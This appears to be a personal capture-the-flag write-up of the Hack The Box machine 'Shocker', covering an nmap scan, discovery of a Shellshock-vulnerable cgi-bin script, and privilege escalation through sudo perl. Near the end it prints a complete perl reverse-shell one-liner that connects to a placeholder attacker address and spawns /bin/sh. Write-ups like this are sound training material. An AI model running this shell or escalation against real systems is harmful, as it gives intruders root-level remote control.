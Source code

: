 Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating Ping Scan at 07:17
Scanning 10.10.10.56 [2 ports]
Completed Ping Scan at 07:17
Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
Initiating Connect Scan at 07:17
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
Initiating Service scan at 07:18
Scanning 2 services on 10.10.10.56
Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.56.
Initiating NSE at 07:18
Completed NSE at 07:18, 10.10s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Nmap scan report for 10.10.10.56
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds
```


Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

```
> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> 
```

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found [this neat python script](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/) from user [matjohn2 on github](https://github.com/matjohn2/) Thanks, matjohn2!

Super simple, it has the reverse shell built in! So I launch that and Aw yes, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


Sup' shelly what have you got in store for us?

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

After minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

```
sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker8.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
